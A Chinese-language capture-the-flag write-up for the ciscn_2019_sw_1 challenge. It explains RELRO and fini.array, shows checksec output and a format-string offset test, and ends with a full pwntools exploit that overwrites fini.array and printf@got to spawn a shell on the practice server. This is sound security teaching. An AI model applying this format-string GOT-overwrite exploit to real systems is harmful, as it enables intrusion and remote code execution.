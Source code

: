 # 0x01.ciscn_2019_sw_1



>   -   当`RELRO`保护为`NO RELRO`的时候，`init.array、fini.array、got.plt`均可读可写；为`PARTIAL RELRO`的时候，`ini.array、fini.array`可读不可写，`got.plt`可读可写；为`FULL RELRO`时，`init.array、fini.array、got.plt`均可读不可写。
>   -   程序在加载的时候，会依次调用`init.array`数组中的每一个函数指针，在结束的时候，依次调用`fini.array`中的每一个函数指针
>   -   当程序出现格式化字符串漏洞，但是需要写两次才能完成攻击，这个时候可以考虑改写`fini.array`中的函数指针为`main`函数地址，可以再执行一次`main`函数。一般来说，这个数组的长度为`1`，也就是说只能写一个地址

32位，开了NX

```sh
yutao@ubuntu:~/Desktop$ checksec ciscn_2019_sw_1
[*] '/home/yutao/Desktop/ciscn_2019_sw_1'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

一眼格式化字符串的洞，且格式化字符串的洞在栈上，比在堆上简单点：

![image-20220412231718491](0x01-0x20/image-20220412231718491.png)

下面测偏移：

```sh
yutao@ubuntu:~/Desktop$ ./ciscn_2019_sw_1 
Welcome to my ctf! What's your name?
aaaa%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.
Hello aaaaFFB76310.2.0.61616161.252E5825.58252E58.2E58252E.252E5825.58252E58.2E58252E.252E5825.58252E58.2E58252E.252E5825.58252E58.2E58252E.yutao@ubuntu:~/Desktop$ 
```

偏移为4.

除此之外还有个sys：

![image-20220412232322442](0x01-0x20/image-20220412232322442.png)



![image-20220412232812407](0x01-0x20/image-20220412232812407.png)

所以，写fini_array的第一个为main的地址，并将printf@got改为system@plt。

```
system.plt: 0x80483D0
fini_array = 0x0804979C
printf.got = 0x0804989C
```



exp:

```python
from pwn import *

p = remote("node4.buuoj.cn",25857)
#p = process("./ciscn_2019_sw_1")

printf_got = 0x0804989C
system_plt = 0x080483D0
fini_array = 0x0804979C
main = 0x8048534
offset = 4
payload = p32(fini_array + 2) + p32(printf_got+2) + p32(printf_got) + p32(fini_array)
payload += "%" + str(0x0804 - 0x10) + "c%4$hn"    
payload += "%5$hn"                               
payload += "%" + str(0x83D0 - 0x0804) + "c%6$hn"  
payload += "%" + str(0x8534 - 0x83D0) + "c%7$hn"  
p.sendlineafter("name?\n",payload)
p.sendlineafter("name?\n",'/bin/sh\x00')
p.interactive()
```

